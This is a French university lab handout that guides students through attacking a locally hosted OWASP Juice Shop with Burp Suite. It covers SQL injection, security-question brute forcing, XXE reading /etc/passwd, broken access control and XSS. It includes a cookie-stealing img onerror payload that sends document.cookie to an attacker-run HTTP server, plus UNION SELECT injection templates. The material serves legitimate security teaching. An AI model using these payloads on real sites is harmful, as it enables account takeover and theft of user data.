

# TP OWASP
## Introduction
Au cours de ce TP, vous allez exploiter quelques vulnérabilités du OWASP TOP 10. 
Vous utiliserez votre machine pour effectuer les attaques et l'application OWASP Juice Shop installée dans une machine virtuelle en tant qu'application Web victime.

## Préparation de l’infrastructure
Créez une machine virtuelle dans l’OpenStack avec les caractéristiques suivantes:
- OS Ubuntu Server 22.04.3 LTS
- 2 vCPU
- 4 GB RAM
- 10 GB Espace disque
- Ports 80 et 443 ouverts (Normalement ouverts par défaut)

Dans la section suivante, vous allez installer l’OWASP Juice Shop sur cette machine.

## Juice Shop
OWASP Juice Shop est probablement l'application Web non sécurisée la plus moderne et la plus sophistiquée. 
Elle englobe les vulnérabilités de l'ensemble du OWASP TOP 10 ainsi que de nombreuses autres failles de sécurité trouvées dans les applications du monde réel.
Cette application contient un grand nombre de défis de difficulté variable où l'utilisateur est censé exploiter les vulnérabilités sous-jacentes. 

La progression est suivie sur un tableau de score. 
Trouver ce tableau de score est en fait l'un des défis (faciles)!

Au cours de ce TP, vous allez trouver et exploiter certaines vulnérabilités de l'OWASP TOP 10 dans cette application web.
Pour commencer, vous allez installer l'application Juice Shop sur la machine OpenStack créée précédemment. Cette application est disponible en version dockerisée. 
Mais comme plusieurs vulnérabilités ne sont pas compatibles avec cette version, vous allez installer OWASP Juice Shop en version package.

### Installation OWASP Juice Shop
- Installez le Node.js 18 en suivant ce tutoriel
    - https://github.com/nodesource/distributions/blob/master/README.md#deb
    - **Attention!** Assurez-vous d'installer la version 18 de Node.js!

- Téléchargez l’application OWASP Juice Shop
    - https://github.com/juice-shop/juice-shop/releases/download/v14.5.0/juice-shop-14.5.0_node18_linux_x64.tgz

- Décompressez l'archive et lancez l’application
    ```bash
    tar -zxvf juice-shop-14.5.0_node18_linux_x64.tgz
    cd juice-shop_14.5.0/
    export NODE_ENV=quiet && export PORT=80 && sudo -E npm start
    ```
- Accédez à l’application avec le navigateur Web **Firefox** depuis votre machine
    - L’application doit être disponible sur http://ADR-IP-DE-LA-VM/

Si l'application n'est pas accessible, assurez-vous que l'application a été lancée correctement et que le port **80** est ouvert.

## Burp Suite
Dans ce TP, vous n'utiliserez pas d'outils qui automatisent la découverte et l'exploitation des vulnérabilités. 

Mais pour faciliter votre travail, vous allez utiliser un outil Proxy qui vous permettra d’intercepter, de modifier et de répéter les requêtes HTTP faites à l'application Web.

Bien qu'il existe plusieurs outils Proxy, vous allez utiliser l’outil le plus moderne et le plus populaire, le *Burp Suite*. 
Cet outil est utilisé par la majorité des Penesters et des Bug Hunters. 
Par exemple, Thomas DeVoss (dawgyg), qui est l’un des premiers hackers au monde à avoir gagner 1 million de dollars grâce aux Bug Bounties, utilise uniquement *Burp Suite* et un outil de découverte d'assets dans son travail.

Selon Wikipedia, *Burp Suite* est une application Java, développée par PortSwigger Ltd, qui peut être utilisée pour la sécurisation des applications Web ou pour effectuer des tests de pénétration sur des applications Web. 
La suite se compose de différents outils comme un serveur proxy, robot d’indexation, un outil d'intrusion, un scanner de vulnérabilités et un répéteur HTTP.

Burp Suite est disponible en deux éditions: Burp Suite Community Edition et Burp Suite Pro. 
Dans ce TP, vous allez utiliser Burp Suite Community Edition qui est la version gratuite, fournie par défaut avec la distribution Kali Linux.
La version Pro est doitée de fonctionnalités supplémentaires, telles que l'analyse automatique des vulnérabilités, ainsi qu'un plus grand nombre de threads utilisables pour les attaques et les requêtes.

Pour faire simple, Burp Suite fonctionne comme un proxy. 
Il se place entre votre navigateur Web et l'application Web testée, puis intercepte et analyse toutes les requêtes et les réponses échangées avec l'application Web. 
Donc, pour utiliser Burp Suite, vous devez l’installer sur votre machine et l’utiliser comme proxy dans votre navigateur Web.

### Installation
Installez la version Community de Burp Suite sur votre machine
- https://portswigger.net/burp/releases/professional-community-2024-4-5
- **Attention!** Vous devez choisir et installer la version **Burp Suite Community Edition!**

### Configuration
Dans cette section, vous allez configurer votre navigateur Web pour qu’il utilise Burp Suite comme serveur proxy.

Pour pouvoir activer et désactiver le proxy rapidement, installez et configurez l'extension *FoxyProxy Standard* pour *Firefox*.

- Lancez le Burp Suite avec un projet temporaire et la configuration par défaut
    - Verifiez que le proxy est configuré pour intercepter les requêtes (onglet `Proxy` -> `Intercept is on`)
- Ajoutez une entrée pour le proxy *Burp Suite* dans le *FoxyProxy* 
    - `Options` -> `Proxies` -> `Add` (Hostname `127.0.0.1` et Port `8080`) -> `Save`
- Activez l'éntree du proxy Burp Suite créée précédemment dans le *FoxyProxy*

### Utilisation
Essayez d'accéder à l'application Juice Shop précédemment lancée.

Si tout est configuré correctement, vous verrez la page se charger en continu en attente de réponse du serveur Web.

Si c’est le cas, rendez-vous dans *Burp Suite* onglet `Proxy`. 

Dans cet onglet, vous allez voir la requête envoyée par le navigateur Web à l'application Web Juice Shop qui a été interceptée par Proxy de Burp Suite.


Vous avez la possibilité de la modifier ou/et de l’envoyer à l'application Web. 

Si vous cliquez sur `Forward`, la requête sera envoyée et traitée par l’application Web.
La reponse de l'application Web sera reçue directement dans le navigateur Web. 

Pour afficher une page, votre navigateur peut avoir besoin d'effectuer plusieurs requêtes à l’application Web et recevoir plusieurs réponses. 
Il peut donc être nécessaire de cliquer plusieurs fois sur `Forward`, pour que votre navigateur soit débloqué et que vous puissiez voir la page de l'application Web dans le navigateur.

#### Repeater
Vous avez également la possibilité d’envoyer la requête au `Repeater`. 

`Repeater` vous permet d’envoyer une requête plusieurs fois et d’afficher la réponse de l’application Web directement dans Burp Suite. 

Pour d’envoyer la requête au `Repeater`, faites un clic droit sur la requête dans l'onglet `Proxy` et `Send to Repeater`, puis allez dans l'onglet `Repeater`. 


Cette fonctionnalité est extrêmement utile, lorsque vous essayez d'effectuez une attaque en modifiant la requête effectuée par le navigateur à l'application Web. 

Elle vous permet d'envoyer plusieurs versions de requêtes et de voir comment l'application Web répond à chaque version de la requête directement dans Burp Suite sans passer par le navigateur Web.

Cette fonctionnalité vous permet d'ajuster votre attaque pour obtenir le résultat souhaité.


#### Intruder
Une autre possibilité intéressante est d’envoyer la requête au `Intruder`. 

`Intruder` vous permet de modifier la requête de différentes manières, d'envoyer chaque version modifiée de la requête et d'analyser les réponses de l'application Web pour identifier les comportements intéressants.

Pour d’envoyer la requête au `Intruder`, faites un clic droit sur la requête dans l'onglet `Proxy` et `Send to Intruder`, puis puis allez dans l’onglet `Intruder`. 

Cette fonctionnalité est utile lorsque vous souhaitez essayer une liste de valeurs pour un paramètre de la requête.

Pour ce faire, vous devez positioner des `markers` dans l’onglet `Positions`, puis vous devez choisir les valeurs qui seront essayées aux positions des `markers` dans l'onglet `Payloads`.





Dans le cas présenté sur les images, Burp Suite va envoyer 4 requêtes à l’application Web avec les valeurs `option1`, `option2`, `option3` et `option4` pour le cookie `cookieconsent_status`.
Pour lancer l'attaque, vous devez cliquer sur `Start attack`.


Une fois l'attaque terminée, vous allez pouvoir analyser chaque requête et la réponse reçue de l'application Web.


Explorez les différents types d'attaques disponibles sur `Intruder` de Burp Suite.

## Time to hack
Dans cette section, vous allez trouver et exploiter les vulnérabilités dans l’application Web `Juice Shop`. 

### Échauffement - Trouvez le score board
Dans cette partie, vous allez trouver le score board. 
Le score board est une page Web qui contient une liste de tous les défis disponibles dans `Juice Shop` avec une brève description. Certaines descriptions sont des instructions très explicites.
D'autres ne sont que de vagues indices qui vous laissent le soin de déterminer ce qui doit être fait.

Pour trouver le score board, vous allez procéder de manière entièrement manuelle, sans l’utilisation de `Burp Suite`.

Désactivez l’utilisation du proxy `Burp Suite` dans `FoxyProxy` et trouvez le lien vers la page du score board. 

Pour ce faire, vous pouvez: 
- Soit analyser le code source des pages de l'application Web affichées dans le navigateur Web (y compris les fichiers JavaScript) pour trouver le lien
- Soit deviner le lien vers la page où le score board est caché

**Quel est le lien qui permet d'accéder au score board ? Comment l'avez-vous trouvé ?**


### Injection - Devenir administrateur
Dans cette partie, vous allez exploiter une injection SQL pour vous connecter en tant qu'administrateur.

Le mécanisme d’authentification présente une vulnérabilité permettant une injection SQL que vous aller exploiter.

Afin de pouvoir détecter et exploiter cette vulnérabilité, vous allez utiliser le `Burp Suite`.

Pour ce faire:
- Activez l’utilisation du proxy `Burp Suite` dans `FoxyProxy` et assurez-vous que `Intercept is on` dans l'onglet `Proxy` du `Burp Suite`

- Interceptez la requête qui envoie les valeurs saisies dans le formulaire d'authentification à l'application Web

- Lorsque vous avez intercepté cette requête, envoyez-la au `Burp Suite Repeater` avec clique droit `Send to Repeater`
    - `Burp Suite Repeater (onglet Repeater)` vous permettra de modifier la requête pour essayer une entrée différente et de visualiser directement la réponse de l’application Web

- Essayez de provoquer une erreur sur la page d’authentification en essayant différentes entrées de formulaire et en surveillant les réponses de l'application Web
    - **Comment avez-vous provoqué l’erreur en utilisant le formulaire d’authentification ?**
    - **Quelles données intéressantes sont divulguées par le serveur dans le message d’erreur ?**

- Trouvez une injection qui permet de vous connecter avec le compte administrateur
    - Le compte administrateur est la première entrée de la base de données
    - **Quelle injection avez-vous utilisé pour vous connecter avec le compte administrateur ?**

- Une fois que vous avez découvert comment exploiter le formulaire de connexion avec `Burp Suite`, désactivez le proxy et authentifiez-vous sur l'application Web via votre navigateur Web en fournissant le contenu d'injection directement dans le fomulaire
    - **Combien de produits y a-t-il dans le panier de l'administrateur ?**

Dans cette partie, vous avez également rencontré une vulnérabilité de type **Security Misconfiguration**. 
Vous avez provoqué une erreur qui a révélé la requête SQL utilisée par l'application Web et vous a facilité la construction de l'injection SQL.
Cela représente une mauvaise configuration de la sécurité de l’application Web. 
Normalement, l'application doit être configurée pour ne jamais afficher d'informations sensibles dans les messages d'erreur.


### Insecure Design - Voler l'identité de Jim
Dans cette partie, vous allez exploiter un mauvais mécanisme de récupération de mot de passe. 

Vous allez exploiter cette vulnérabilité pour changer le mot de passe de l’utilisateur Jim et voler son identité.

Pour commencer, vous devez d'abord comprendre comment fonctionne le mécanisme de récupération de mot de passe dans l'application Web.

Pour faire cela:
- Créez un utilisateur et essayez de restaurer son mot de passe via la fonctionnalité de mot de passe oublié
- Analysez les requêtes envoyées à l'application Web et les réponses récues avec `Burp Suite Repeater`
- **Que contient la réponse de l'application Web lorsque vous envoyez la demande de récupération de mot de passe avec la réponse à la question de sécurité correcte / incorrecte?**

Un fois que vous avez compris comment fonctionne la récupération de mot de passe, vous pouvez essayer de l’exploiter. 

Vous avez vu que pour effectuer une récupération de mot de passe, vous devez connaître l’adresse mail et la réponse à la question de sécurité de la victime. 
Vous avez de la chance car l’adresse mail de la victime peut être trouvée sur les pages de l’application Web.
- Explorez le site pour trouver l’adresse mail de Jim.
- **Quelle est l’adresse mail de Jim ? Où l'avez-vous trouvé ?**

La question de sécurité de Jim peut également être facilement trouvée.
- **Quelle est la question de sécurité de Jim ? Comment l'avez-vous trouvé ?**

Supposons que Jim ait effectivement répondu à cette question et que la réponse soit un prénom.
Pour découvrir la réponse à sa question de sécurité, vous pouvez utiliser deux approches différentes:
- **OSINT (Open-source intelligence)**: Analyser l’identité de Jim et essayer de trouver la réponse à partir des données publiquement disponibles sur Internet
- **Dictionary Attack**: Trouver un dictionnaire avec tous les prénoms possibles et les essayer tous

OSINT est une ressource très puissante. 
Vous ne pouvez même pas imaginer la quantité de données intéressantes que vous pouvez trouver en utilisant intelligemment des sources ouvertes.
Si vous trouvez la bonne réponse dans des sources publiques, votre attaque est moins susceptible d’être détectée par l’application ciblée.
Cette approche devrait donc être privilégiée. 
Cependant, cela nécessite parfois beaucoup de travail de recherche et prend beaucoup de temps.

Comme pour ce TP vous etes limités dans le temps, vous allez utiliser **Dictionary Attack** avec un dictionnaire restreint.

**wordlist-prenoms.txt**
```
John
Zilvia
Zino
Tine
Tineke
Zita
Zitella
Zoe
Samuel
Wilton
Win
Windowing
```

Vous allez utiliser `Burp Suite Intruder` pour effectuer cette attaque. 

Pour ce faire:
- Interceptez la demande de récupération de mot de passe avec l'adresse mail de `Jim` et n'importe quelle réponse à la question de sécurité

- Envoyez la requete au `Intruder` (clic droit et `Send to Intruder`) 

- Dans l’onglet `Intruder` -> `Positions`, effacez tous les `markers` (bouton `Clear`) 

- Créez un `marker` à la position de la réponse à la question de sécurité 
    - Pour ce faire, sélectionnez le texte de la réponse à la question de sécurité et cliquez sur le bouton `Add`

- Choisissez le type d'attaque `Sniper` 

- Puis dans l’onglet `Payloads`, choisissez le type de payload `Simple List` 

- Dans la section `Payload settings`, copiez la liste des prénoms donnée précédemment
    - Pour allez plus vite, vous pouvez enregistrer la liste sous forme de fichier texte et utiliser le bouton `Load...` pour la charger à partir de ce fichier ou copier la liste et utiliser le bouton `Paste` 

- Démarrez l’attaque avec le bouton `Start attack` et analysez soigneusement la taille et l'état de chaque réponse
    - Pour chaque réponse de sécurité essayée par `Intruder`, vous pouvez visualiser la requête envoyée et la réponse reçue de l’application Web
    - **Quelle est la réponse à la question de sécurité de Jim ? Comment l'avez-vous trouvée?**

- Authentifiez-vous en tant qu'utilisateur Jim via le navigateur Web
    - **Combien de produits a-t-il dans son panier ?**


### XML External Entities (XEE) - Lire un fichier du serveur
Dans cette partie, vous allez exploiter la vulnérabilité XML External Entities. 

Vous allez utiliser cette vulnérabilité pour lire le fichier `/etc/passwd` du serveur.

Un exemple d’exploitation de cette vulnérabilité a été vu pendant le CM. 
Cet exemple fonctionne également pour le `Juice Shop`.

Tout d'abord, vous devez trouver une page avec un formulaire qui vous permet d'uploader des fichiers XML et essayer de l'exploiter.
- Ne cherchez pas trop loin, cette page est accessible depuis la page d'accueil en étant connecté avec n'importe quel utilisateur
- **Quelle page contient le formulaire qui vous permet d'uploader des fichers XML ?**

Utilisez le `Burp Suite Repeater` pour visualiser les requêtes et les réponses de l’application Web lors du upload du fichier XML via le formulaire trouvé précédemment.
- **Avez-vous réussi à exploiter cette vulnérabilité ?**
- **Quel fichier avez-vous envoyé à l'application Web ?**
- **Quel message d’erreur accompagne le contenu du fichier `/etc/passwd` ?**


### Security Misconfiguration - Trouver des documents confidentiels
Il arrive souvent que des ressources qui ne sont pas censées être vues par des personnes non autorisées soient disponibles sur le serveur et soient accessibles à tous.

Dans cette partie, vous allez rechercher des fichiers intéressants disponibles sur le serveur Web de l'application `Juice Shop`.

Pour faire la découverte de ressources cachées, vous pouvez utiliser des outils automatisés, tels que `dirbuster` ou `gobuster`. 

Ces outils vous permettent de découvrir les fichiers et dossiers disponibles sur les serveurs Web en essayant des noms communs ou en effectuant la découverte par bruteforce.
Ils vous permettent de trouver différentes ressources cachées sur les serveurs Web, telles que des pages, des fichiers, des répertoires et des applications.

Mais avant de commencer à effectuer des analyses massives qui peuvent être détectées par les systèmes de sécurité, vous devriez toujours essayer des choses plus simples.
Vous pouvez commencer par analyser les fichiers de configuration qui sont souvent disponibles sur les serveurs Web et qui peuvent révéler des informations intéressantes. 

Par exemple, le fichier de configuration des scanners des moteurs de recherche est souvent présent sur les serveurs Web et et peut révéler des ressources cachés disponibles sur le serveur Web.

- **Quel fichier permet de spécifier quelles zones du site Web ne doivent pas être traitées ou scannées par des moteurs de recherches ?**
- **Quel répertoire avez-vous découvert en analysant ce fichier ?**
- **Quelles informations confidentielles avez-vous trouvées qui pourraient avoir un impact boursier significatif ?**


### Broken Access Control - Afficher le panier d'un autre utilisateur  
Dans cette section, vous allez trouver et exploiter la vulnérabilité de contrôle d'accès défaillant. 

Cette vulnérabilité est présente dans la fonctionnalité d'affichage du panier et vous permet de visualiser le panier de n'importe quel utilisateur de l'application Web.

Comme dans les sections précédentes, vous allez commencer par analyser le fonctionnement de la visualisation du panier. 

Pour ce faire:

- Créez un compte, authentifiez-vous et ajoutez un article dans le panier
- Activez l'utilization du Proxy `Burp Suite` et trouvez la requête REST qui récupère les articles du panier de l’utilisateur
- Envoyez cette requête à `Repeater` et analysez le résultat
    - Faites attention à l'en-tête HTTP `If-None-Match`
    - **Que fait cette en-tête ?**

Lorsque vous avez compris comment fonctionne la récupération du panier, essayez de manipuler la requête pour récupérer le panier de l'administrateur (utilisateur avec l’id `1`).
- **Combien de produits y a-t-il dans son panier ?**


### Cross-Site Scripting (XSS) - Voler des cookies
Dans cette section, vous allez trouver et exploiter la vulnérabilité de type Reflected XSS. 

Vous allez commencer par rechercher un paramètre présent dans l'URL qui n’effectue aucun filtrage ni nettoyage et qui est inclus directement dans la réponse immédiate de l’application Web.
Ensuite, vous allez créer une URL spéciale qui volera les cookies d’un utilisateur lorsqu’il la visitera.

Pour trouver la vulnérabilité :
- Trouvez une page avec un paramètre potentiellement vulnérable
    - Vous devez trouver une page où la valeur d'un paramètre est inclus **dans la réponse immédiate de l'application Web** (dans le contenu de la page HTML)
- Vérifiez si la valeur de ce paramètre est incluse dans le contenu de la page sans validation ni échappement
    - Vous pouvez essayer de mettre du code HTML comme valeur (par exemple `<h1>Lyon1</h1>`) et si le contenu HTML est inclus et interprété sur la page, vous avez trouvé une vulnérabilité
        - Il faudra peut-être encoder le code HTML dans le format URL-encoded afin qu'il puisse être utilisé dans l'URL. Pour ce faire, utilisez un encodeur en ligne comme [https://www.urlencoder.org/](https://www.urlencoder.org/)
- **Quelle page et quel paramètre sont vulnérables ?**

Félicitations, vous avez trouvé un moyen d’injecter du code HTML dans la page via un paramètre vulnérable.

Il faut maintenant trouver un moyen d'injecter du code JavaScript dans la page pour pouvoir voler les cookies de l'utilisateur.

Pour faire cela, vous pouvez utiliser les tags HTML `img` ou `iframe`.

- `img` qui essaye de charger une image inexistante avec du code JS dans le paramètre `onerror="CODE_JS"`
- `iframe` avec le code JS dans le paramètre `src="javascript:CODE_JS"`

- **Que mettez-vous comme valeur de paramètre pour afficher `Lyon1` comme alerte JavaScript ?**

Ensuite, il faut trouver un moyen de récupérer les cookies de l'utilisateur avec du code JavaScript. 
Les cookies de l’utilisateur se trouvent dans la variable `document.cookie`.
- Affichez les cookies dans une alerte JS en utilisant la vulnérabilité trouvée précédemment.
- **Que mettez-vous comme valeur de paramètre pour faire cela ?**

Jusqu'à présent, vous avez affiché des cookies en exploitant une vulnérabilité XSS.

Vous allez maintenant voler les cookies d'un utilisateur en exploitant cette vulnérabilité. 

Pour ce faire:
- Démarrez un serveur HTTP Python sur le port `443` sur la machine OpenStack
    - `sudo python3 -m http.server 443`

- Créez une URL avec le parametre vulnérable contenant le tag HTML `img` avec `onerror` suivant
    - `this.src='http://ADR-DE-LA-MACHINE-OPENSTACK:443/?c='+document.cookie`

- Testez l'URL créée précédemment depuis votre navigateur
    - Si tout a été fait correctement dans les logs du serveur HTTP, vous allez voir les cookies de votre utilisateur 

- **Avez-vous réussi à exploiter cette vulnérabilité ?**
- **Quelle URL avez-vous utilisé ?**
- **Quels champs contiennent les cookies volés ?**

De même, vous pouvez envoyer un lien avec cette URL à la victime. 
Si la victime ouvre ce lien, les logs du serveur HTTP vont contenir ses cookies.
Ensuite, il sera possible d'usurper son identité grâce à ses cookies.

L'attaque vue ci-dessus est relativement compliquée à réaliser car la victime doit utiliser le lien fourni par l'attaquant. 
Par conséquent, les attaques Reflected XSS et DOM XSS dans la plupart des cas ne sont pas considérées comme critiques.


### Cross-Site Scripting (XSS) - Voler les cookies de l’administrateur
Dans cette section, vous allez exploiter la vulnérabilité de type Stored XSS pour voler les cookies de l'administrateur. 

Pour voler les cookies, vous allez utiliser la technique vue dans la section précédente (une serveur HTTP Python et le code JavaScript dans un tag HTML `img`).

La différence par raport à la section précédente est que vous devez trouver un moyen de publier le code JavaScript qui sera stocké dans la base de données et qui sera exectué sur une page consultée par l'administrateur.

**Indice**: L’adresse email saisie lors de la création de l’utilisateur est validée uniquement côté client et est affichée dans le panneau d'administration. Vous pouvez donc intercepter et modifier la requête de création d'utilisateur en utilisant `Burp Suite` et `Burp Suite Repeater` afin de créer un compte avec l'adresse email contenant du code JavaScript.

Pour vérifier que vous avez réussi à exploiter la vulnérabilité, vous pouvez :
- Accéder au panneau d'administration en utilisant l'injection SQL vue précédemment pour vous authentifier en tant qu'administrateur et en utilisant l'URL `/#/administration`
- Voir si les cookies d'administrateur sont affichés dans les logs du serveur HTTP Python

Si vous ne parvenez pas à récupérer les cookies d'administrateur, n'hésitez pas à consulter le code HTML affiché dans le panneau d'administration pour ajuster votre attaque.

- **Avez-vous réussi à exploiter cette vulnérabilité ?**
- **Quel code avez-vous mis dans le champ email de la requête de création d'utilisateur ?**
- **Quels champs contiennent les cookies volés ?**

Stored XSS est considéré comme une vulnérabilité critique car le code malveillant s'exécute automatiquement lorsqu'une page est consultée et peut affecter un très grand nombre d'utilisateurs. 


### Injection - Récupérer la liste de tous les utilisateurs
Dans cette section, vous allez exploiter une injection SQL de type Union-based pour récupérer la liste de tous les utilisateurs de la base de données.

Vous allez exploiter la vulnérabilité présente dans l'API de recherche de produits. 

Tout d'abord, vous devez trouver le endpoint et le paramètre vulnérables.

Pour ce faire:
- Analysez les échanges avec `Burp Suite` lorsque vous utilisez la fonctionnalité de recherche de produits
- Trouvez la requête que vous pensez être vulnérable et envoyez-la au `Repeater`
- Modifiez le paramètre de la requête pour provoquer une erreur SQL
    - Faites attention à l'en-tête `If-None-Match`
- Analysez la requête SQL affichée dans le message d'erreur
- **Quels sont le endpoint et le paramètre vulnérables ?**
- **Comment avez-vous provoqué l'erreur SQL ?**
- **Que contient le message d'erreur SQL ?**

Ensuite, vous devez utiliser un `UNION SELECT` pour fusionner les données de la table SQL des utilisateurs avec les données des produits renvoyés dans le résultat JSON. 

Étant donné que cette fois vous injectez la requête dans un paramètre d'URL, vous devez encoder les espaces en les remplaçant par `%20`.

Pour ce faire:
- Tout d’abord, trouvez le nom de la table SQL où sont stockés les utilisateurs
    - Normalement, vous devriez trouver ce nom facilement
        - Vous l'avez déjà vu dans les messages d'erreur SQL au début de ce TP
    - **Quel est le nom de la table des utilisateurs ?**

- Ensuite, trouvez le nombre de colonnes renvoyées par la requête de recherche de produit, car pour pouvoir effectuer une `UNION`, le nombre de colonnes renvoyées par deux requêtes doit être le même
    - Pour cela, ajoutez progressivement des colonnes à droite de votre `UNION` jusqu'à ne plus avoir d'erreurs SQL
        - `UNION SELECT '1' FROM table`
        - `UNION SELECT '1','2' FROM table`
        - `UNION SELECT '1','2','3' FROM table`
        - …
    - **Quel est le nombre de colonnes renvoyées par la requête initiale ?**
    - **Qu'avez-vous mis en paramètre pour trouver ce nombre ?**
    - Si vous le souhaitez, vous pouvez vous débarrasser des résultats de recherche de produits en ajoutant le nom d'un produit inexistant au début de la requête
        - `asdeqwe')) …`

- Finalement, récupérez la liste des utilisateurs avec leurs mots de passe
    - Remplacez les nombres que vous avez mis dans `UNION` avec les noms des colonnes contenant les noms et les mots de passe des utilisateurs
        - Vous avez déjà vu les noms des colonnes nécessaires dans le message d’erreur SQL généré au début de ce TP
- **Avez-vous réussi à récupérer la liste de tous les utilisateurs ?**
- **Qu'avez-vous mis en paramètre pour récupérer la liste ?**
- **Comment les mots de passe sont-ils stockés dans la base de données ?**
- **Quel est le nom de Chris ?**


### Broken Access Control - Créer un compte avec des privilèges d'administrateur 
Dans cette section, vous allez créer un compte avec les privilèges d'administrateur.

Pour ce faire:
- Analysez la requête envoyée et la réponse retournée lors de la création d'un compte utilisateur
- Trouvez un paramètre dans la réponse renvoyée par l'application Web qui peut être intéressant dans notre contexte 
- Essayez de forcer ce paramètre lors de l'envoi de la requête de création de compte
- Vérifiez que l'utilisateur créé dispose des privilèges d'administrateur

- **Avez-vous réussi à créer un utilisateur avec des privilèges d'administrateur ? Comment avez-vous procédé ?**
- **Comment avez-vous verifié que l'utilisateur créé dispose des privilèges d'administrateur ?**

## Partie Bonus

### Passer une commande qui vous rend riche
Dans cette section, vous allez exploiter une vulnérabilité qui vous permettra d'obtenir de l'argent sur votre portefeuille numérique.

Pour ce faire:
- Créez un utilisateur simple, authentifiez-vous et ajoutez un article dans votre panier
- Analysez le fonctionnement de la modification de la quantité d'articles dans le panier
- Analysez les requêtes et les paramètres envoyés lors du changement de quantité avec `Burp Suite`
- Essayez d'exploiter le paramètre envoyé pour gagner de l'argent
- Passez la commande et visualisez votre Digital Wallet

- **Avez-vous trouvé la vulnérabilité qui vous permet de gagner de l'argent ? En quoi consiste cette vulnérabilité ?**
- **Avez-vous réussi à gagner de l’argent sur votre Digital Wallet ? Comment avez-vous procédé ?**

### Déterminer la réponse à la question de sécurité d'Emma et voler son identité
Dans cette section, vous devez trouver la réponse à la question de sécurité d'Emma. 

Pour ce faire:
- Devinez l'adresse email d'Emma et trouvez la question de sécurité via le formulaire de récupération de mot de passe
    - **Quelle est l'adresse email et la question de sécurité d'Emma ?**

- Trouvez la réponse à la question de sécurité d'Emma
    - Parcourez le site Web et analysez attentivement les éléments publiés par les utilisateurs
        - Faites attention aux commentaires et aux images 
        - Parfois, les utilisateurs peuvent divulguer des informations importantes sans s'en rendre compte
    - **Quelle est la réponse à la question de sécurité d'Emma ? Où l’avez-vous trouvé ?**

- Changez le mot de passe d'Emma et authentifiez-vous en tant qu'Emma
- **Combien de produits Emma a-t-elle dans son panier ?**

### Déterminer la réponse à la question de sécurité de John et voler son identité
Dans cette section, vous devez trouver la réponse à la question de sécurité de John. 

Pour ce faire:
- Devinez l'adresse email de John et trouvez la question de sécurité via le formulaire de récupération de mot de passe
    - **Quelle est l'adresse email et la question de sécurité de John ?**

- Trouvez la réponse à la question de sécurité de John
    - Parcourez le site Web et analysez attentivement les éléments postés par les utilisateurs
        - Vous devez trouver une photo qui peut potentiellement vous aider à trouver la réponse
        - Analysez les métadonnées de cette photo
            - Pour cela, vous pouvez utiliser un outil en ligne d'analyse des métadonnées d'image
    - **Quelle est la réponse à la question de sécurité de John ? Comment l’avez-vous trouvé ?**
